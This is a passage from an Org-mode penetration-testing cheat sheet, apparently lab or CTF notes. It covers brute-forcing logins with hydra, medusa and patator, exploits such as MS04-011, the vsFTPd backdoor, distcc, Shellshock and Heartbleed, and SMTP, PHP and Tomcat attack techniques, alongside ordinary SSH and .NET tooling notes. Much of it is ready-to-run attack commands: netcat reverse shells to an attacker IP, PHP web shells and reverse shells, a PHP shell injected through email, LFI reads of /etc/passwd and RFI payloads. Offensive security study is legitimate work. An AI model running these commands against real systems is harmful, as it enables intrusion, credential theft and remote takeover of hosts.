          hydra -L <userwl> -P <passwl> -e ns -s <port> <ip> http-post-form '/path/to/api/auth:{"user"\:"^USER^","pass"\:"^PASS^"}:{"success"\:false}:H=Content-Type\: application/json;charset=utf-8'
          # Add -u for spraying
          # Use curl's resp-body as Fail-cond
          # If more headers are required, do
          # escape : from the url http\://
        #+end_src
      - For JSON/AJAX use the latest master as there are [[https://github.com/vanhauser-thc/thc-hydra/issues/448][two]] [[https://github.com/vanhauser-thc/thc-hydra/issues/654][bugs]] in version < 9.3
**** Basic / Digest / NTLM
***** Medusa
      - [[http://foofus.net/goons/jmk/medusa/medusa.html][Site]] - [[https://github.com/jmk-foofus/medusa/][Repo]] ([[https://github.com/jmk-foofus/medusa/pull/53][fix]]) - Login bruteforcer
        #+begin_src sh
          # Unable to filter codes/redirs
          medusa -h <ip/dom> -v 4 -b -M http -m "AUTH:BASIC" -m 'DIR:/<url>' -s -t 2 -e ns -U <wusr> -P <wpwd>
          # -v 4        - See successful only
          # -b          - Hide banner
          # -t <num>    - Thread number
          # -T <num>    - Concurrent hosts
          # -M <module> - Choose module
          # -m <param>  - Module parameter
          # -s          - Use SSL
          # -n <port>   - Different port
          # -Z <key>    - Resume using key
          # -e [ns] - Try Null/Same usr->pwd
          # -[up] <single-usr/pass>
          # -[Ff] - 1 valid combo Any/1 host
          # -H <host-list> | -C <combo-list>
          # -d - * Modules | -q - All params
        #+end_src
***** Ffuf
      - Adapt [[https://raw.githubusercontent.com/ffuf/ffuf-scripts/master/ffuf_basicauth.sh][ffuf_basicauth]] from [[https://github.com/ffuf/ffuf-scripts][ffuf-scripts]]:
        #+begin_src sh
          # Change to Digest or NTLM if needed
          ./ffuf_basicauth.sh <wusr> <pwd> | ffuf -w -:AUTH -H "Authorization: Basic AUTH" -fc 403 -c -u '<url>'
        #+end_src
***** Patator
      - [[https://github.com/lanjelot/patator][Site]] - Multi-Purpose bruteforcer - [[https://raw.githubusercontent.com/lanjelot/patator/master/patator.py][raw]]
        #+begin_src sh
          # Add to line 3965: if resolve:
          patator http_fuzz 'url=<url>' user_pass=FILE0:FILE1 0='<wusr>' 1='<wpwd>' -x ignore:code=401
          # pathasis=1       - Send ../ as is
          # auth_type=basic  - Default
          # auto_urlencode=1 - Default
          # persistent=1     - Default
          # > Change the 0 and 1 for spraying
          #
          # --allow-ignore-failures - Ignore...
          # -x ignore:code=xxx      - Errors
        #+end_src
** RPC
*** MS04-011
    - Used in Windows XP, also works in Win2k
    - Check that the port 445 is open and that the ~lsass.exe~ (WinXP) or ~netrap.dll~ (Win2k) processes are running
    - Obtain the exploit through ~searchsploit -m 295~ or [[https://www.exploit-db.com/exploits/295][exploit-db]]
    - Add ~#include <stdio.h>~
    - Compile it with:
      #+begin_src sh
        i686-w64-mingw32-gcc 295.c -o ms04-011.exe -lws2_32
      #+end_src
    - Send it to the target an run it:
      #+begin_src bat
        :: 0 -> WinXP ; 1/2 -> Win2k Pro/Serv
        ms04-011.exe 0 127.0.0.1 9090
      #+end_src
    - Connect to the port 9090 (locally) to obtain an admin shell
    - There are some options for autodetect the OS (~-t~) and connect back to an IP (reverse-shell) instead of spawning the bind-shell but they weren't tested
** FTP
*** Enumeration
**** Netcat
     - Banner grab and interact:
       #+begin_src sh
         nc -nv <ip> 21
       #+end_src
     - Commands:
       #+begin_src sh
         # Log in
         USER <username>
         PASS <password>
         # The order may have to be reversed
       #+end_src
**** FTP
     - Connect:
       #+begin_src sh
         ftp <ip>
         # Use anonymous as name to anon user
       #+end_src
     - Commands:
       #+begin_src sh
         # OS (more or less
         system

         # Current path
         pwd

         # List files
         ls / dir

         # Change directory
         cd <dir>

         # Delete file
         del <file>

         # Set binary mode for transfers
         binary

         # Download
         get <file>

         # Upload
         put <local-file>
       #+end_src
*** Backdoors
**** vsFTPd 2.3.4
     - Trigger: Username ending in ~:)~:
       #+begin_src sh
         nc -nv <ip> <ftp-port>

         USER test:)

         PASS test
       #+end_src
     - Connect to backdoor:
       #+begin_src sh
         nc -nv <ip> 6200
         # Will only work if the firewall is
         # not blocking it
         # Note that it may still be the way
         # to elevate privileges from inside
       #+end_src
** SSH
*** Bruteforce
**** Usernames
     - Using [[https://www.exploit-db.com/exploits/45939][EID 45939]] and ~xargs~:
       #+begin_src sh
         < <userlist> xargs -P 10 -I {} python2 45939.py -p <port> <ip> {} 2>&1 | grep ' valid'
         # Unlimited procs kill the process
       #+end_src
**** Passwords
***** Hydra
      - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
        #+begin_src sh
          # -s <alt-port>
          hydra -l <user> -P <pass-wlist> -e ns ssh://<server>
        #+end_src
*** Shellshock - CVE-2014-6271
    - OpenSSH with ForceCommand feature and bash < bash43-027
*** CVE-2015-6565
**** Affected
     - OpenSSH 6.8 < 6.9
**** Exploit
     - EID 41173 - Local privEsc
*** CVE-2008-0166
**** Affected
     - SSH with OpenSSL 0.9.8c-1 < 0.9.8g-9
**** Readable .ssh/authorized_keys
     - Get DSA or RSA [[https://github.com/g0tmi1k/debian-ssh/tree/master/common_keys][common keys]]
     - Grep for the authorized key:
       #+begin_src sh
         grep -lr <auth-key>
         # .pub file detected
       #+end_src
     - Connect using the found private file:
       #+begin_src sh
         ssh -i <non.pub> <user>@<ip>
       #+end_src
**** Other tools
     - Check [[https://github.com/g0tmi1k/debian-ssh][debian-ssh]] and [[https://github.com/g0tmi1k/debian-ssh/tree/master/our_tools][our_tools]] dir
*** Tricky Commands/Configuration
**** POSIX Remote Directory Tracking
     - [[https://github.com/akermu/emacs-libvterm#shell-side-configuration][Vterm codes]]:
       #+begin_src sh
         # Paste as-is in a remote terminal
         # command ssh -F /dev/null <host>; cd .

         [ -n "${IP+x}" ] && OLD_IP="$IP"
         IP="$(expr "${SSH_CONNECTION}" : ".* \([^ ]*\) 22")"
         # Add others like pushd popd if used
         for c in cd chdir; do
           eval $c' () {
             { command '$c' $@; } && { printf "\e]51;A-:${USER}@'${IP}':%s\e\\" "${PWD}"; :; }
           }'
         done
         [ -z "${OLD_IP+x}" ] && unset IP || { IP="${OLD_IP}"; unset OLD_IP; }
         cd .

         # Multi-hop (accept host-key beforehand)
         # \e]51;Assh:<hop-user>@<hop-ip>#<port>|ssh:${USER}@'${IP}':%s\e\\

         # Tmux escape:  \ePtmux;\e\e]%s\007\e\\
         # Screen escape: \eP\e]%s\007\e\\
         #
         # Tmux multi-hop:
         # \ePtmux;\e\e]51;Assh:<hop-user>@<hop-ip>#<port>|ssh:${USER}@'${IP}':%s\007\e\\
       #+end_src
**** PLINK.exe
     - Connect to host
       #+begin_src bat
         :: Inline password with -pw <pass>
         :: Different port with -P <port>
         plink.exe -ssh root@127.0.0.1
       #+end_src
     - Proxy through SOCKS4/HTTP ([[https://serverfault.com/a/972499][ref]]):
       #+begin_src bat
         plink.exe -ssh -proxycmd "ncat --proxy-type http --proxy <proxy-ip>:<proxy-port> %host %port" root@127.0.0.1
       #+end_src
**** PUTTY.exe
     - SSH proxy-hopping - [[https://stackoverflow.com/a/28937185][How to]]
**** SSH
     - List keys associated to private one:
       #+begin_src sh
         ssh-keygen -l -f <r/dsa>
       #+end_src
     - Create public file from private:
       #+begin_src sh
         ssh-keygen -y -f <r/dsa> > <r/dsa>.pub
       #+end_src
     - Set the right permissions to use with ~-i~
       #+begin_src sh
         # Or 400
         chmod 600 <r/dsa>.pub
       #+end_src
     - Export (to stdout) key in PEM format:
       #+begin_src sh
         ssh-keygen -e -m PEM -f <r/dsa>
       #+end_src
     - Find the options that are/can be set:
       #+begin_src sh
         ssh -G -o <options> root@127.0.0.1
       #+end_src
     - Ignore ~ssh_config~ and allow weaker algorithms:
       #+begin_src sh
         ssh -i <private-rsa/dsa> -p <port> -F /dev/null -o PreferredAuthentications=password -o PubkeyAuthentication=no -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -oKexAlgorithms=+diffie-hellman-group1-sha1 -ociphers=+aes128-cbc root@127.0.0.1
       #+end_src
     - Proxy through SOCKS5 ([[https://superuser.com/a/454211][ref]]):
       #+begin_src sh
         # Using OpenBSD nc
         ssh -o ProxyCommand='/usr/bin/nc -X 5 -x <proxy-ip>:<proxy-port> %h %p' <user>@<ip>

         # Using ncat
         ssh -o ProxyCommand='/usr/bin/ncat --proxy-type socks5 --proxy <proxy-ip>:<proxy-port> %h %p' <user>@<ip>
       #+end_src
     - SSH-hopping:
       #+begin_src sh
         ssh -J <user-hop1>@<ip-hop1> <user>@<ip>
       #+end_src
     - SSH Control Sequences ([[https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/][ref]]):
       #+begin_src sh
         # Only works after newlines
         # Disable: ssh -o EscapeChar='none'
         ~~  # Send Escape
         ~.  # Terminate connection
         ~^Z # Background ssh (Ctrl-Z)
         ~C  # Add commands: -D <socks-port>
       #+end_src
** Distcc
*** CVE-2004-2687
**** Identification
     - Using [[https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html][distcc NSE]] ([[https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc][ref]]):
       #+begin_src sh
         nmap -sS -n -Pn --open -T4 --min-rate=1000 -p3632 --script=distcc-cve2004-2687 <ip>
       #+end_src
**** Exploitation
     - Remote Command Execution:
       #+begin_src sh
         nmap -sS -n -Pn --open -T4 --min-rate=1000 -p3632 --script=distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc <local-ip> 8080 -e /bin/sh'" <ip>
       #+end_src
** RDP
*** Windows
    - Enable access:
      #+begin_src bat
        reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /f /v fDenyTSConnections /t REG_DWORD /d 0
        :: Check the firewall section for
        :: allowing the ports
      #+end_src
    - See the PowerShell way for enabling the RDP at the ~Trick Configuration~ section
** IRC
*** Linux
    - You may execute commands via netcat:
      #+begin_src sh
        echo "AB; nc -e /bin/sh <attacker-ip> <port>" | nc 127.0.0.1 <IRC-port>
      #+end_src
** VoIP
*** SIP
**** Tools
     - [[https://github.com/EnableSecurity/sipvicious][sipvicious]] suite
**** SIP Scan
     - With [[https://github.com/EnableSecurity/sipvicious/wiki/SVMap-Usage][svmap]]:
       #+begin_src sh
         # Identify SIP servers
         svmap <ip/hostname>
         # Use -p to target different ports
       #+end_src
**** PBX Extensions Scan
     - With [[https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage][svwar]]:
       #+begin_src sh
         # Find working extensions
         svwar -m OPTIONS -e100-999 <ip/host>
         # Use -D instead of -e for defaults
         # Alternatively use:
         # - REGISTER -> May not always work
         # - INVITE -> Note: simulates a call
         # Use --force to bypass checks
       #+end_src
** SSL/TLS
*** Scan / Test
    - Proto/Cipher/Vulns - [[https://github.com/drwetter/testssl.sh][testssl.sh]]:
      #+begin_src sh
        # Checks Heartbleed and others
        testssl.sh --full <url:port>
        # -E check cipher per protocol
        # --starttls smtp -> SMTPS checks
      #+end_src
    - Supported protocols Using [[https://github.com/rbsec/sslscan/][sslscan]]:
      #+begin_src sh
        sslscan <ip>
      #+end_src
*** Downgrade OpenSSL System-wide
    - Modify ~/etc/ssl/openssl.cnf~:
      #+begin_src conf
        [system_default_sect]
        # > Old <
        # MinProtocol  = TLSv1.2
        # CipherString = DEFAULT@SECLEVEL=2

        # > New <
        MinProtocol  = None
        CipherString = None

        # > Or set explicit versions <
        # MinProtocol  = TLSv1.0
        # CipherString = DEFAULT@SECLEVEL=1
      #+end_src
    - Note that this has nothing to do with certificate validation and this varies [[https://stackoverflow.com/a/28048260][per tool]]
*** Heartbleed
**** Affected
     - OpenSSL 1.0.1 < 1.0.1g
     - Not vulnerable on those compiled with ~-DOPENSSL_NO_HEARTBEATS~
**** Exploits
     - [[https://github.com/Saiprasad16/Heartbleed/blob/master/attack.py][attack.py]]
       #+begin_src sh
         # Ask for 16385 memory bytes
         ./attack.py -l 0x4001 <ip-host>

         # Find private RSA key on port 4343
         ./attack.py -p 4343 -e <ip-host>
       #+end_src
     - [[https://github.com/robertdavidgraham/heartleech][heartleech]] - Auto-RSA key finder
     - [[https://github.com/einaros/heartbleed-tools][heartbleed-tools]] - Multiple Tools
     - [[https://github.com/indutny/heartbleed][heatbleed.js]] - Find RSA key + set ciphers
     - [[https://github.com/Lekensteyn/pacemaker][pacemaker]]
     - [[https://gist.github.com/omegahanggara/10993814][heartbleed.c]] - Client/Server Exploiter
** SMTP
*** User enumeration
**** Hydra
     - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
       #+begin_src sh
         # Use -S for SSL or -O for older SSL
         hydra -s <port> smtp-enum://<ip>/VRFY -L <user-wlist> -p <domain>
         # EXPN & RCPT are VRFY alternatives
         # Use localhost as <domain>
       #+end_src
*** Password Bruteforce
**** Hydra
     - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
       #+begin_src sh
         # Check the other auth type with:
         #  hydra -U smtp
         hydra -L <user-wlist> -P <pass-wlist> -e ns -s <port> smtp://<server>/LOGIN
         # Use TLS: smtp://<server>/TLS:LOGIN
         # or with: smtps://<server>/LOGIN

         # Without module and single user
         hydra -l <user> -P <pass-wlist> -f -e ns -s <port> <server> smtp
         # Use -S for SSL or -O for older SSL
       #+end_src
*** Email Location
**** Linux
     - Common email locations:
       #+begin_src sh
         /var/mail/<user>
         /var/spool/mail/<user>
       #+end_src
*** Send Email
**** Swaks
     - [[https://github.com/jetmore/swaks][Site]] - Perl multipurpose SMTP tool
       #+begin_src sh
         # Send email - Exploit RCE
         swaks --to <user>@localhost --from test@test.net --header "Subject: test shell" --body 'SHELL-INIT:<pre> <?php system($_REQUEST["cmd"]); ?> </pre>:SHELL-END' --server <ip-port>
         # Or --port <port> for non-standard
       #+end_src
**** Telnet / Netcat
     - Same RCE exploit as ~swaks~:
       #+begin_src sh
         # nc -nC can also work
         telnet <ip> <port>
         # Keep the <...> below around emails
         EHLO world

         MAIL FROM:<test@test.net>

         RCPT TO:<[user]@localhost>

         DATA

         # The body goes from here {
         Date: $(LC_ALL=C date)
         To: [user]@localhost
         From: test@test.net
         Subject: test shell
         Message-Id: <20210218153300.1486384@test>

         SHELL-INIT:<pre> <?php system($_REQUEST["cmd"]); ?> </pre>:SHELL-END


         .
         # } To here, where it automatically ends

         QUIT
       #+end_src
*** Server
**** Python smtpd
     - [[https://docs.python.org/3/library/smtpd.html][Docs]] - Builtin Python < 3.12
       #+begin_src sh
         # DebuggingServer prints to stdout
         python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25
         # -n         - Run as nobody
         # -c <class> - smtpd handler class/object
       #+end_src
**** aiosmtpd
     - [[https://aiosmtpd.readthedocs.io][Site]] - Builtin Python >= 3.12
       #+begin_src sh
         # Prints to stdout as it defaults to:
         #   -c aiosmtpd.handlers.Debugging
         python3 -m aiosmtpd -n -l 0.0.0.0:25
         # -n             - Run as nobody
         # -l <host:port> - Listen address
         # -u             - Enable SMTPUTF8 ext
         # -c <class>     - aiosmtpd handler class
       #+end_src
** POP3
*** Read Emails
**** Telnet
     #+begin_src sh
       telnet <ip/domain> 110

       USER <username>

       PASS <password>

       # Undelete emails marked for deletion
       RSET

       # List emails
       LIST

       # Read email
       RETR <mail-id>

       QUIT
     #+end_src
*** Password Bruteforce
**** Hydra
     - [[https://github.com/vanhauser-thc/thc-hydra][Usage]] - Faster to bruteforce than SMTP
       #+begin_src sh
         # Check the other auth type with:
         #  hydra -U pop3
         hydra -L <user-wlist> -P <pass-wlist> -e ns -s <port> pop3://<server>/CLEAR

         # Without module and single user
         hydra -l <user> -P <pass-wlist> -f -e ns -s <port> <server> pop3
         # Use -S for SSL or -O for older SSL
       #+end_src
** XML-RPC
*** Clients
**** curl
     - List methods:
       #+begin_src sh
         curl -d '<?xml version="1.0"?> <methodCall> <methodName>system.listMethods</methodName><params></params></methodCall>' -H 'Content-Type: text/xml' <url>/xmlrpc.php
       #+end_src
     - Show method help:
       #+begin_src sh
         curl -d '<?xml version="1.0"?> <methodCall><methodName>system.methodHelp</methodName><params><param><value> <string>system.listMethods</string></value></param></params> </methodCall>' -H 'Content-Type: text/xml' <url>/xmlrpc.php
       #+end_src
*** Bruteforce
**** Hydra
     - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
       #+begin_src sh
         # Use the simplest method
         hydra -l none -P <wlist> <ip> https-post-form '/xmlrpc.php:<?xml version="1.0"?><methodCall><methodName>pfsense.check_firmware_version</methodName><params><param><value><string>^PASS^</string></value></param></params></methodCall>:failed:H=Content-Type\: text/xml'
         # You may have to limit concurrency
         # to avoid crashing the service:
         # -t <n-threads> | -T <n-threads>
       #+end_src
** NTP
*** systemd
    - ~systemd-timesyncd.service~ controls NTP
      #+begin_src sh
        # Start the daemon
        systemctl start systemd-timesyncd.service

        # And/or
        timedatectl set-ntp true

        # See the time servers
        vi /etc/systemd/timesyncd.conf

        # Verify the configuration
        timedatectl show-timesync --all

        # Add a new server from an interface
        timedatectl ntp-servers <iface> <ip>
      #+end_src
*** ntpdate
    - [[http://support.ntp.org/download][Site]] - Synchronize system with NTP srv
      #+begin_src sh
        # Does not require system/chrony
        ntpdate <ip>
      #+end_src

* Web
** Certificates
*** crt.sh
    - [[https://crt.sh][Site]] - Certificate searcher
** Servers
*** Apache HTTP
**** URL Bruteforce - Discovery
     - Wordlists:
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/Apache.fuzz.txt][Apache.fuzz]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/apache.txt][apache]]
       - [[https://gitlab.com/kalilinux/packages/dirb/-/tree/kali/master/wordlists][dirb ones]]
     - Mix them:
       #+begin_src sh
         # Better use duplicut
         sort -u *.txt > all.txt
       #+end_src
**** Log Poisoning - LFI to RCE
***** Linux
      - Common log locations:
        #+begin_src text
          -- HTTP --
          /var/log/httpd/access_log
          /var/log/httpd/error_log

          -- HTTPS --
          /var/log/httpd/ssl_access_log
          /var/log/httpd/ssl_error_log
          /var/log/httpd/ssl_request_log
        #+end_src
      - Check custom locations in:
        - ~/etc/apache2/envvars~
        - ~/etc/apache2/apache2.conf~
      - Find the default path of the server:
        - ~/etc/apache2/sites-enabled/000-default.conf~
*** Apache Tomcat
**** Version Reveal Tricks
     - Tomcat might be susceptible to URL poisoning to allow revealing its version on a 400 Bad Request error
     - For example:
       - ~<site>/\~
       - ~<site>/%5c~
**** URL Bruteforce - Discovery
     - Wordlists:
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/ApacheTomcat.fuzz.txt][ApacheTomcat.fuzz]]
       - [[https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/tomcat.txt][tomcat]]
       - Also check the Apache ones
**** URL Reveal Tricks
     - Tomcat may be susceptible to URL poisoning to allow access to forbidden paths
     - For example:
       - ~<site>/manager/status/..;/html~
       - Goes to ~<site>/manager/html~
       - even if direct access result in 401
       - Also check ~<site>/manager;/status~
       - Plus ~<...>/%252E%252E/manager/status~
       - And ~<..>/;param=value/manager/status~
       - And use it as base for discovery
     - To upload WAR files in ~manager/html~ tamper the POST request with a proxy
     - Or copy the full request from the browser's Dev tools in ~curl~ format
     - for ~host-manager/html~ only UNC works
     - Remember that WAR files should be type ~java/jsp_shell_reverse_tcp~ when generating them with ~msfvenom~
**** JServ - AJP
***** Bruteforce Default Credentials
      - First check that the ~/manager/~ URI asks for authentication (if it doesn't and returns permission denied it won't work)
        #+begin_src sh
          w3m http://<ip:port>/manager
        #+end_src
      - Get the default credentials from [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt][SecLists]] and separate users from passwords:
        #+begin_src sh
          # Users
          cut -d: -f1 tomcat-betterdefaultpasslist.txt | sort -u > users.txt

          # Passwords
          cut -d: -f2 tomcat-betterdefaultpasslist.txt | sort -u > passwords.txt
        #+end_src
      - Bruteforce the credentials with [[https://github.com/hypn0s/AJPy][AJPy]]:
        #+begin_src sh
          python2 tomcat.py --port <ajp-port> bf -U users.txt -P passwords.txt /manager/ <ip>
          # Maybe also check the HTTP port
          # and under /manager/html
        #+end_src
      - Check that the credentials are indeed valid:
        #+begin_src sh
          python2 tomcat.py --port <ajp-port> list -u <user> -p <password> <ip>
          # Maybe also check the HTTP port
        #+end_src
***** Ghostcat - CVE-2020-1938
      - It is possible to upload files with [[https://github.com/hypn0s/AJPy][AJPy]] if permissions to access ~/manager/~ are obtained (prior section):
        #+begin_src sh
          # Create a .war java reverse shell
          python2 tomcat.py --port <ajp-port> upload -u <user> -p <password> <shell>.war <ip>
          # Maybe also check the HTTP port
        #+end_src
      - Check that the shell was deployed:
        #+begin_src sh
          python2 tomcat.py --port <ajp-port> list -u <user> -p <password> <ip>
          # Maybe also check the HTTP port
        #+end_src
      - Now execute the remote shell:
        #+begin_src sh
          # I couldn't check this, possibly
          # you can find it installed under
          # http://<ip>/manager/html/<app>
          # Or maybe this works:
          python2 tomcat.py --port <ajp-port> read_file --webapp=<app> / <ip>
        #+end_src
      - Metasploit ~tomcat_mgr_upload~ module worked with the HTTP port, but I couldn't make ~AJPy~ work (with AJP port)
      - Note that the .war can be manually uploaded at ~http://<ip>/manager/html~
*** IIS
**** File/Dir Disclosure
***** Short Name Enumerator
****** sns
       - [[https://github.com/sw33tLie/sns][Site]] - Go IIS shortname scanner:
         #+begin_src sh
           # Add headers through --proxy <http>
           sns -c -u <url>
           # -t <n> - Limit threads: 1 -> safest

           # Multiple urls
           sns -c -f <(echo -e '<url1>\n<url2>')
         #+end_src
****** IIS shortname Scanner
       - [[https://github.com/lijiejie/IIS_shortname_Scanner][Site]] - Python IIS shortname scanner:
         #+begin_src sh
           python3 main.py <url>
         #+end_src
**** File Extension Bypass
***** Information
      - Issue only existing in IIS <= 6
      - [[https://soroush.secproject.com/blog/2009/12/microsoft-iis-semi-colon-vulnerability/][Reference]]
***** Attack
      - Use a semicolon in the extension:
        #+begin_src conf
          <file>.asp;.jpg
          # Executed/Saved as <file>.asp
        #+end_src
** Technologies
*** CGI
**** Shellshock - CVE-2014-6271
     - Find the CGI login page (ie: ~/session_login.cgi~) and identify one of the post fields (like ~user~)
     - Pay attention to the headers in place
     - Perform a common login POST request using a ~sleep~ as User-Agent:
       #+begin_src sh
         () { :; };sleep 10
         # In some cases sleep 10 alone works
       #+end_src
     - With ~curl~:
       #+begin_src sh
         # -A '...' or -H 'User-Agent: <cmd>'
         # Remove -s if curl errors to check
         curl -A '() { :; };sleep 10' -H 'Cookie: testing=1; sid=x' -s 'https://<ip-port>/session_login.cgi' -d 'user=test' | w3m -T text/html -dump
         # -H "Cookie: ..." to bypass the:
         #  Error - No cookies
       #+end_src
     - May be easier with burp or mitmproxy
     - *Important:* Only builtins may be available, *PATH* is unset, use *full path*
     - Note that any other script in the ~/cgi-bin/~ folder may also be susceptible to shellshock
     - Scripts there may even set a ~text/x-sh~ header (or broken ones), so add an ~echo;~ before the test command
*** PHP
**** Login Bypass
***** Array
      - Array types may break the form validation logic
      - Simply change the form fields/params
        - from ~user=<user>~
        - to ~user[]=<user>~
      - Try changing only one at a time
**** Code Execution
***** PHPInfo
      - If PHPInfo is not exposed by the server but it is possible to inject PHP code, though not achieving RCE, consider calling the ~phpinfo()~ function to troubleshoot a bit
      - Check for the value of the ~disable_functions~ directive to see which functions might be preventing RCE
      - Check for the ~$_SERVER['DOCUMENT_ROOT']~ variable in case the way to achieve RCE is by writing a malicious file
***** System Commands
      #+begin_src php
        <?php $out=shell_exec("<cmd> 2>&1"); echo "<pre>$out</pre>"; ?>

        // Using GET cmd parameter
        <?php echo "<pre>" . shell_exec($_GET["cmd"] . " 2>&1") . "</pre>"; ?>

        // Using base64
        <?php echo "<pre>" . shell_exec(base64_decode($_GET["cmd"])) . "</pre>"; ?>
        // $_REQUEST is "like" $_GET + $_POST
      #+end_src
***** Bind/Reverse Shells
      #+begin_src php
        // Reverse Shell
        <?php $sock=fsockopen("<ip>", <port>); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
        // Use passthru with raw output
        // Use pipes with popen or proc_open
      #+end_src
***** Protocol Wrappers
      - [[https://www.php.net/manual/en/wrappers.php][Docs]] - RCE through HTTP parameters:
        #+begin_src sh
          # Plain text
          <url>?file=data://text/plain,<?php echo shell_exec("<cmd>"); ?>
          # Also try data://text/plain,[...]

          # Base64
          <url>?file=data://text/plain;base64,<base64payload>
        #+end_src
      - LFI through HTTP parameters:
        #+begin_src sh
          <url>?file=/etc/passwd

          # or forcing file
          <url>?file=file:///etc/passwd

          # SMB shares can be opened
          <url>?file=\\<ip>\share\evil.php
        #+end_src
      - RFI/RFE through HTTP parameters:
        #+begin_src sh
          <url>?file=http://<domain/evil.php

          # or using php filter
          <url>?file=php://filter/resource=http://<domain/evil.php

          # or using ssh2, ftp, etc
        #+end_src
      - [[https://www.php.net/manual/en/wrappers.expect.php][Expect]] wrapper also allows cmd exec:
        #+begin_src sh
          # Test netcat, space is $IFS
          expect://nc$IFS10.0.0.1$IFS8080
        #+end_src
**** File Upload
***** Extensions
      - Try ~php3~, ~php4~, ~php5~, and ~phtml~
***** PHPINFO - info.php
      - Note that this is a temporary upload
      - First check that ~file_uploads = On~
      - Perform a POST request to ~info.php~:
        #+begin_src text
          POST <uri>/info.php HTTP/1.1
          Host: <domain/ip>
          User-Agent: Test
          Cookie: PHPSESSID=<sess-id>
          Content-Length: <body-len+newlines>
          Content-Type: <type>

          <body>
        #+end_src
      - ~<type>~ and ~<body>~ may have to be ~multipart/form~:
        #+begin_src text
          Content-Type: multipart/form-data; boundary=---------------<keyword>

          ---------------<keyword>
          Content-Disposition: form-data; name="<var>"; filename="test.txt" Content-Type: text/plainSecurity
          <file-content>
          ---------------<keyword>
        #+end_src
      - If phpinfo displays the temporary location of the file, leverage a LFI to RCE with this path
      - Scripts to improve the success rate as the files live for a few seconds:
        - [[https://github.com/sinsinsecurity/phpinfo-Local-File-Inclusion][phpinfo-Local-File-Inclusion]]
        - [[https://github.com/roughiz/lfito_rce][lfito_rce]]
        - [[https://www.insomniasec.com/downloads/publications/phpinfolfi.py][phpinfolfi.py]] (original)
**** Object Injection
     - [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md][See]] - PHP objects can be serialized and included in vulnerable applications (see the [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phar][phar wrapper]])
     - Leverage destructors, function calls, etc using user-controlled code to perform RCE
*** C# / C-sharp
**** Linux
***** dotnet
****** Install Standalone
       - From [[https://docs.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#scripted-install][docs.microsoft]] (see deps)+[[https://docs.microsoft.com/en-us/dotnet/core/tools/telemetry#how-to-opt-out][Telemetry]]
         #+begin_src sh
           curl -L -O https://dot.net/v1/dotnet-install.sh

           # Opt out of the Telemetry
           export DOTNET_CLI_TELEMETRY_OPTOUT=1
           # Only required before installing

           # Non-root - Latest SDK install
           bash dotnet-install.sh -c Current
           # -c <LTS/3.1>      - 6.0 LTS or 3.1
           # --runtime aspcore - Runtime only

           # The ~/.dotnet folder can be moved to
           # /usr/share and consider symlinking
           # the dotnet tool to /usr/bin
         #+end_src
****** Build
       - New console project:
         #+begin_src sh
           mkdir test

           cd test

           dotnet new console

           # Edit Program.cs
           vi Program.cs

           # Add dependencies
           dotnet add package <name>
           dotnet add reference <path>

           # Test it
           dotnet run

           # Build it (Debug build)
           dotnet build
           # -c Release     - Relase build
           # -f <framework> - Target FW
           # -r <runtime>   - Target Runtime
           # --arch <arch>  - Target Arch
           # --os <os>      - Target OS
           #
           # Flags required to "self-contain"
           # --sc           - Self-Contained
           # --use-current-runtime | -r <runtime>
           # <arch>-<os> dir is self-contained
         #+end_src
***** ILSpy
     - [[https://github.com/icsharpcode/ILSpy][Win]] - [[https://github.com/icsharpcode/AvaloniaILSpy][Linux]] - Cross-platform C# Decompiler
     - Better decompilation than ~dnSpy~
     - Linux ~AvaloniaILSpy~ HiDPI - [[https://github.com/AvaloniaUI/Avalonia/wiki/Configuring-X11-per-monitor-DPI][ref]]:
       #+begin_src sh
         xrandr --listactivemonitors

         AVALONIA_SCREEN_SCALE_FACTORS='eDP-1=3' artifacts/linux-x64/ILSpy
       #+end_src
     - ~dotnet~ command line tool:
       #+begin_src sh
         # Install
         dotnet tool install -g ilspycmd

         # Add tool to PATH
         export PATH="$PATH:$HOME/.dotnet/tools"

         ilspycmd <file>
         # -o <dir>        - Decompile to folder
         # -p              - Decompile as project
         # -d              - Dump file bundle
         # -lv <ver>       - C# lang version
         # -r <path>       - Path to dependencies
         # --no-dead-code
         # --no-dead-stores
       #+end_src
**** Docker
     - Select the appropriate version: [[https://hub.docker.com/_/microsoft-dotnet-sdk][docker hub]]
       #+begin_src sh
         docker run -it --rm --entrypoint /bin/bash -v "/tmp/test:/mnt/shared:rw" mcr.microsoft.com/dotnet/sdk:<ver>

         # Check the SDKs and Runtimes
         dotnet --list-sdks

         dotnet --list-runtimes
         # Consider using the Linux Standalone
         # above for different SDKs/runtimes

         # Remove image
         docker rmi mcr.microsoft.com/dotnet/sdk:<ver>
       #+end_src
**** Windows
***** Decompilation
****** dnSpy
      - [[https://github.com/dnSpyEx/dnSpy][Site]] (fork) - GUI C# Decompiler/Editor
      - Get the [[https://github.com/dnSpyEx/dnSpy/releases][binaries]]
      - [[https://stackoverflow.com/a/57311539][Try the 32bit]] if errors when recompiling
      - Robust for obfuscated assemblies - [[https://www.reddit.com/r/ReverseEngineering/comments/kgvl1q/comment/ggnerb0/?utm_source=reddit&utm_medium=web2x&context=3][see]]
**** Debugging
     - Edit C# Assembly attributes:
       #+begin_src csharp
         // From
